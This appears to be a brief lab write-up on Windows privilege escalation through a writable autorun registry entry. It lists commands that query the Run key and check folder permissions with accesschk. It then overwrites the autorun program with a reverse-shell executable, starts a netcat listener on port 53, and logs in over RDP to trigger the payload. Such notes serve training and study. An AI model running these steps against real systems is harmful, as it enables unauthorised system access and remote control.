





2x1 Registry - Autorun - RDP Needed to trigger


## Registry - Autorun



```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```


```bash
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```


```
sudo nc -nvlp 53
rdesktop 10.10.126.225
```
